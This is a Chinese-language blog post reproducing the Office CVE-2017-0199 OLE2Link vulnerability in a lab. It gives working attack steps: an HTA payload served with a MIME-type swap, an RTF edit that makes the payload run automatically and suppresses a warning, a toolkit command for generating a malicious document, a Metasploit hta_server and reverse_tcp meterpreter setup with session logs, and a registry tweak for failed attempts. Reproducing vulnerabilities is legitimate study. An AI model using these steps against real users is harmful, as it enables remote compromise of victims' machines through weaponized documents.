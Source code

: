 ```yaml
---
title: "Office CVE-2017-0199 复现"
date: 2019-07-31T00:00:00+08:00
draft: false
tags: ['office']
categories: ['漏洞复现']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


漏洞原理移步 [绿盟](http://blog.nsfocus.net/microsoft-office-ole2link-exploits-technology-analysis/).

环境 Ubuntu 16.04 for WSL, Windows 7, Office 2010.

<!--more-->

## 复现过程

搭建 Apache 服务器.

```
sudo apt install apache2 php
```

编辑 `/etc/apache2/apache2.conf`, 添加以下内容.

```
<Directory /var/www/html/>
    AllowOverride All
</Directory>
```

重启 Apache.

```
sudo service apache2 restart
```

在网站目录下创建 .htaccess 文件, 内容如下.

```
AddType application/rtf .rtf
```

同目录下创建 test.rtf 作为 Payload.

```
test
<script>
var ws = new ActiveXObject("wscript.shell");
ws.Run("%SystemRoot%\\system32\\calc.exe");
window.close();
</script>
```

创建任意文档(注意要在未打补丁的环境下创建), 添加对象.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731180814.png)

另存为 rtf 格式.

更改 .htaccess 为如下内容.

```
AddType application/hta .rtf
```

清除 IE 缓存, 重新打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731181725.png)

点击 "是".

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731181454.png)

复现成功.

但这里就有三个问题: 1. calc 被执行两次 2. 两个警告对话框 3. 文档是 rtf 格式.

第一个问题在我这无法解决, 那么如何让用户去点击按钮, 而且是在日常中不是很常见的 rtf 文档里呢?

## 改进载荷

关于第一个问题, Payload 执行两次一般来说并没有什么太大的影响 (至少对我来说).

下面解决第二个问题.

用编辑器打开 rtf 文档, 找到以下字符串.

```
\object\objautlink\rsltpict
```

修改为.

```
\object\objautlink\objupdate\rsltpict
```

这里我们添加了 objupdate 参数, 它将使文档被打开时自动更新文档中对象的内容, 也就是自动去请求 Payload.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731182436.png)

再次打开后就会自动执行 calc 命令, 而且你会发现第二个警告框也没有了 :)

对于第三个问题, 添加的 objupdate 参数是 rtf 的特性, docx 不能兼容, 但是当文件名以 .doc 结尾的时候却能够成功打开.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731182744.png)

问题解决.

## 武器化

[bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)

生成恶意文档.

```
cve-2017-0199-toolkit.py -M gen -t rtf -w sales.rtf -u http://192.168.1.1/test.hta
```

这里对 Payload 的后缀没有限制, 只要返回头中存在 `Content-Type: application/hta` 即可.

例如 PHP.

```
<?php @header("Content-Type: application/hta");?>
test
<script>
var a = new ActiveXObject("wscript.shell");
a.Run("%SystemRoot%\\system32\\calc.exe");
window.close();
</script>
```

此外 toolkit 中还有启动服务器的选项, 不过我更喜欢自己构造 Payload :)

使用 Metasploit 作为 hta 服务器 (Cobalt Strike Empire 同理).

```
use exploit/windows/misc/hta_server
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.1
run -j
```

下面只需要打开文档.

```
[*] 192.168.1.102    hta_server - Delivering Payload
[*] Sending stage (179779 bytes) to 192.168.1.102
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.102:49183) at 2019-07-31 17:35:53 +0800
[*] Sending stage (179779 bytes) to 192.168.1.102
[*] Meterpreter session 2 opened (192.168.1.1:4444 -> 192.168.1.102:49184) at 2019-07-31 17:35:54 +0800
```

成功.

## 利用失败

如果你利用失败了, 很大可能是系统默认禁用了通过 hta 方式执行 ActiveX, 这也是这个漏洞为什么那么鸡肋的原因.

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}]
"Compatibility Flags"=dword:00000000
```

另存为 allow.reg, 然后双击合并.